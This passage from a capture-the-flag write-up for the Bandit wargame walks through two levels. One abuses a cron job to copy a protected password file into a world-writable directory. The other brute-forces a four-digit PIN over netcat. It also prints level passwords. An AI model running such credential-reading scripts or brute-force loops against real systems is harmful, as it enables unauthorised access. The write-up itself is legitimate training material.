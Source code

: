 ```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.EBCPI7mvfb/password
```

3. create a file for the password to be written into

```shell
touch password
```

4. Give the directory and file the relevant permissions

```shell
chmod +rwx password
chmod 777 /tmp/tmp.EBCPI7mvfb
```

5. Move the bash script into /var/spool/bandit23/foo

```shell
cp pass.sh /var/spool/bandit24/foo/pass.sh
```

6. Wait for a minute, try to read /var/spool/bandit24/foo/pass.sh. If the file doesn't exist, it means that the cron job has finished running
7. You can now read the password in the temporary directory

```shell
cat password

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

# 24-25
**Problem**
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time. <br>

**Solution**
1. Try connecting to port 30002 and entering a random code just to see the output
2. Write a script to generate a text file that contains the previous password and each of the 10000 combinations, each on a new line into a file called possibilities.txt. Next, pipe every line in possibilities.txt into netcat and output the result into results.txt. (do all of this in a temporary directory)

```bash
#!/bin/bash

for i in {0000..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > results.txt
```

